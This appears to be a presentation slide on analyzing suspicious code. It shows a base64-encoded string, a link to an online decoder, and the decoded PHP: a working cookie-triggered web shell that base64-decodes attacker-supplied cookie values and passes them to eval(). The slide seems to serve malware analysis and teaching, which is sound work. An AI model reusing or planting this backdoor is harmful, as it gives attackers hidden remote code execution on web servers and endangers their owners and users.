

# Analyzing Suspicious Code
JGM9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYSk9PSdoNCcgJiYgJGMoJGEpPjMpeyRrPSd4ZXInO2VjaG8nPCcuJGsuJz4nO2V2YWwoYmFzZTY0X2RlY29kZShwcmVnX3JlcGxhY2UoYXJyYXkoJy9bXlx3PVxzXS8nLCcvXHMvJyksYXJyYXkoJycsJysnKSxqb2luKGFycmF5X3NsaWNlKCRhLCRjKCRhKS0zKSkpKSk7ZWNobyAnPC8nLiRrLic+Jzt9DQoNCg==

https://www.base64decode.org/

$c='count';$a=$_COOKIE;if(reset($a)=='h4' && $c($a)>3){$k='xer';echo'<'.$k.'>';eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'),array('','+'),join(array_slice($a,$c($a)-3)))));echo '</'.$k.'>';}